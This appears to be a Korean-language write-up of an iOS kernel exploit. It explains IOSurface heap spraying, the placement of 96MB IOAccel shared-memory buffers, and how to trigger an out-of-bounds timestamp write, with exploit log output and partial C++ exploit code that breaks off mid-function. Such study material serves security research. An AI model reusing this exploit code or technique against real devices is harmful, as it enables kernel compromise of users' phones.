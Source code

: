 실행 결과와 함께 huge kalloc은 아래 주소로 할당되었다.

huge kalloc(osdict_entry) = 0xffffffe0ca5d0000

```cpp
[*] IOSurface's userspaceValueDicts: 0xffffffe002ba5230
[*] dict 0xffffffe002ba5230, items 0xffffffe002147e80, count 2, capacity 4
[+] Found our 1st sprayed IOSurface data!
[*] OSDict from userspaceValueDicts[1] = 0xffffffe002ba4d80
[*] osdict_count = 0x1, osdict_capacity = 0x520000, osdict_entry = 0xffffffe0ca5d0000
[*] osdictentry_key = 0xffffffe0019e1300
[*] osdict_kbuffer = 0xffffffe0037e8aa0 -> 0xaabbcc
```

![Screenshot 2025-09-10 at 2.03.40 AM.png](pics/Screenshot_2025-09-10_at_2.03.40_AM.png)

## 2. 96MB seglist, cmdbuf 공유메모리 생성

다음으로, 향후에 OOB 취약점을 트리거시키는데 필요한 seglist, cmdbuf 2개의 공유메모리 영역를 생성한다.

할당시키는 과정에서 내부적으로 `IOIteratePageableMaps()`를 통해 IOKit 페이저블 메모리 영역을 할당하게 된다. IOKit 패이저블 맵의 최대 크기는 96MB이며, 각각 96MB 크기의 커맨드 버퍼와 세그먼트 리스트 영역을 생성하여 각자가 별도의 페이저블 맵에 할당되도록 만들 수 있다.

이는 공유 메모리 주소 예측에 사용할 수 있는 공간을 최대화시킬 수 있고, 커맨드 버퍼 끝을 벗어난 OOB 쓰기가 바로 인접한 다음 메모리 영역에 위치하도록 보장한다.

공유메모리를 생성하는데 앞서 커맨드 버퍼 크기를 아래와 같이
 `cmd1->command.size = (uint32_t)buffer_size - 16;` 즉, 마지막 뺄 값을 -16으로 지정시킨것을 확인할 수 있다.

우리가 이전에 POC 트리거하려고 했을때는 -8로 뺄셈을 진행하였는데, 
이 경우 타임스탬프가 최대 8바이트까지 OOB Write가 발생하여 패닉이 발생했기에, 이를 방지하는것을 보인다.

이미 공유메모리 생성을 한 이후로도, 언제든지 `cmd1->command.size`를 수정하여 `submit_command_buffer`를 호출하면 언제든지 OOB Write 버그를 트리거시킬 수 있다.

생성된 공유메모리가 커널의 어느 주소에 해당되는지 추후 확인하기 위해
공유 메모리를 할당하고 값을 쓸때 +0x1000 위치에 특별한 시그니처를 남겼다.

**커맨드 버퍼  - 0x4142434445464748**
**세그먼트 리스트 - 0x5152535455565758**

```cpp

int alloc_shmem_with_sig(uint32_t buffer_size, struct IOAccelDeviceShmemData *cmdbuf, struct IOAccelDeviceShmemData *seglist, uint64_t command_buffer_shmem_sig, uint64_t segment_list_shmem_sig) {
    struct IOAccelDeviceShmemData command_buffer_shmem;
    struct IOAccelDeviceShmemData segment_list_shmem;
    
    kern_return_t kr = IOAccelSharedUserClient2_create_shmem(buffer_size, &command_buffer_shmem);
    if (kr) {
        printf("[-] IOAccelSharedUserClient2_create_shmem: 0x%x (%s)\n", kr, mach_error_string(kr));
        return kr;
    }
    
    kr = IOAccelSharedUserClient2_create_shmem(buffer_size, &segment_list_shmem);
    if (kr) {
        printf("[-] IOAccelSharedUserClient2_create_shmem: 0x%x (%s)\n", kr, mach_error_string(kr));
        return kr;
    }

    // set signature
    *(uint64_t*)(command_buffer_shmem.data + 0x1000) = command_buffer_shmem_sig;
    *(uint64_t*)(segment_list_shmem.data + 0x1000) = segment_list_shmem_sig;
```